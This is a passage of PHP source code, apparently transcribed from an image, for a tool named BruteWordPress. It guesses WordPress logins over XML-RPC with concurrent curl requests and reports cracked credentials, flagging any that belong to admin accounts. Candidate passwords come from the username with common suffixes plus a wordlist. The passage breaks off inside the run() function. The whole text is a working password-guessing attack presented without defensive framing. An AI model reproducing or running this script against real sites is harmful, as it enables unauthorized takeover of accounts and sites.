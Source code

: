 	<?php
	include 'init.php';
	define("user", $argv[2]);
	class BruteWordPress
	{
	    private $rc;
	    function __construct() {
	        $this->rc = new RollingCurl();
	        $this->rc->callback = $this->create_request_callback($this->rc);
	        $this->rc->__set('window_size', Thread);
	        $this->rc->__set('time_out', TimeOut);
	    }
	    
	    function create_request_callback($rc) {
	        return function ($response, $info, $request) use ($rc) {
	            if ($info['http_code'] == 404 || $info['http_code'] == 403 || $info['http_code'] == 500) {
	                echo '[-] Access error!' . PHP_EOL;
	                $this->rc->cancelRequests();
	            }
	            
	            $p = $request->post_data;
	            preg_match_all('/<param><value>([^\s]+?)<\/value><\/param>/', $p, $m);
	            $user = $m[1][0];
	            $pass = $m[1][1];
	            if (!preg_match('/<boolean>(\d)<\/boolean>/', $response, $is_admin)) {
	                
	                //echo '[*] Brote user ' . $user . " ..." . "\r";
	                
	                
	            } else {
	                
	                //print_r($is_admin).PHP_EOL;
	                if ($is_admin[1] == 1) {
	                    echo '[+] Bruteed~ -> ' . iconv("UTF-8","GB18030//IGNORE",$user)  . ':' . $pass . ' [is admin]' . PHP_EOL;
	                    $this->rc->cancelRequests();
	                } else {
	                    echo '[+] Bruteed~ -> ' . iconv("UTF-8","GB18030//IGNORE",$user)  . ':' . $pass . PHP_EOL;
	                    $this->rc->cancelRequests();
	                }
	            }
	        };
	    }
	    
	    function run() {
	        $pass_file = preg_replace('/\s$/', "", file(wordlist));
	        $user_pre = array('123', '111', '1', 'a', 'pass', '!@#', 'password', 'abc', '1961', '1962', '1963', '1970', '1988', '1989', '1990', '1991', '1992', '1993', '1994', '1995', '1996', '1997', '1998', '1999', '2001', '2002', '2003', '2004', '2006', '2005', '2007', '2008', '2009', '2010', '2011', '2012', '2013', '2014', '2015');
	        foreach ($user_pre as $pre) {
	            $pre_u[] = user . $pre;
	        }
	        $p = array_merge($pre_u, $pass_file);
	        $passwords = array_unique($p);
	        array_unshift($passwords, user);
	        